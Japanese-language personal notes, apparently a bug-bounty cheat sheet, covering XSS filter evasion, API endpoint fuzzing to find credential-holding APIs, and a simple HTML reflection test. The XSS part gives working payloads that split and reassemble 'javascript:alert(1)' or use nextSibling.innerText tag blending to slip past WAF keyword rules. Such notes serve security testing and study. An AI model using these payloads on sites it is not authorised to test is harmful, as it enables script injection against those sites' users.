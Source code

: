 ### XSS

#### WAFバイパスについて
WAFは「(」と「)」の順序で括弧をキャッチする  
→文字列を複数の部分に分割したり、キーワードを分割したり、文字の順序を変更すればWAFを回避できる  

```
<svg+onload=location='javascript:alert(1)'>

↓これだとひっかかるから改造する

<svg onload=a=')',b='t(1',j='javas',s='cript:aler',location=j+s+b+a>

↓これをエンコードして実行する

%3Csvg%20onload%3Da%3D')'%2Cb%3D't(1'%2Cj%3D'javas'%2Cs%3D'cript%3Aaler'%2Clocation%3Dj%2Bs%2Bb%2Ba%3E

```

#### タグブレンディングによるWAFバイパス
nextSibling.innerTextを使用することで、次のタグの値を指定できる  
→これを利用してWAFバイパスをする

bタグで囲んだところを良いところで区切ってWAFバイパスを行う  

```
<svg onload=location=nextSibling.innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

↓inner/outerHTML プロパティベースのペイロードには次のものがある  

```
<svg onload=innerHTML=nextSibling.innerText>
<b><img/src/on<b></b>error=al<b></b>ert(1)></b>
```


### API
各フレームワークにあったエンドポイントリストを使ってファジング→ヒットしたURIにアクセスしてクレデンシャルなデータを保持しているAPIを見つける
Reactであればapp.jsが/に相当するため、setting.jsにアクセスすれな/settingに入れたりする
https://www.bugbountyhunter.com/guides/?type=javascript_files

### HTML反映テスト
シンプルだけど強力
test<h2>test1
